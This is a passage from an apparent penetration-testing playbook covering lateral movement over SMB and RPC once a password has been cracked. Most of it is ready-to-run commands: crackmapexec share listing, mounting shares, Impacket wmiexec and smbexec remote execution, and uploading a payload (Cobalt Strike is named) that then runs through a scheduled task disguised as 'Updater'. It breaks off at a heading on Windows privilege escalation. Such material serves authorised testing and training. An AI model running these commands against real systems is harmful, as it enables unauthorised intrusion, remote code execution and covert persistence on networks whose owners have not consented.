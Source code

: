 
## 6. SMB / RPC Authentication and Lateral Movement

1. **Try valid credentials on SMB to list shares/access RDP**

   * If you’ve cracked a password (e.g., `svc_backup:Password1`):

     ```bash
     crackmapexec smb 10.10.10.5 -u 'svc_backup' -p 'Password1' --shares
     ```
   * Mount an accessible share:

     ```bash
     mkdir /mnt/backup && mount -t cifs //10.10.10.5/Backup$ /mnt/backup -o username=svc_backup,password=Password1,domain=CORP
     ```

2. **WMIC/RPC execution**

   * Use Impacket’s `wmiexec.py` or `psexec.py` to run commands on the remote host:

     ```bash
     # WMI Exec
     wmiexec.py CORP.LOCAL/svc_backup:Password1@10.10.10.5

     # SMBExec (if services permit)
     smbexec.py CORP.LOCAL/svc_backup:Password1@10.10.10.5
     ```

3. **SMB file upload and scheduled task (if psexec fails)**

   * Upload a payload (e.g., Cobalt Strike, custom exe) to a writable share, then run via `schtasks`.

     ```bash
     # Upload using smbclient
     smbclient //10.10.10.5/Temp$ -U "svc_backup%Password1"
     put local_payload.exe

     # On local Kali, schedule via RPC
     rpcclient -U "svc_backup%Password1" 10.10.10.5
     >schtasks /Create /S 10.10.10.5 /RU "CORP\svc_backup" /RP "Password1" /SC ONCE /ST 12:00 /TN "Updater" /TR "C:\Temp\local_payload.exe"
     ```

---

## 7. Local Privilege Escalation on Windows Hosts

Once you get a foothold (low-privileged user or SYSTEM), escalate privileges:
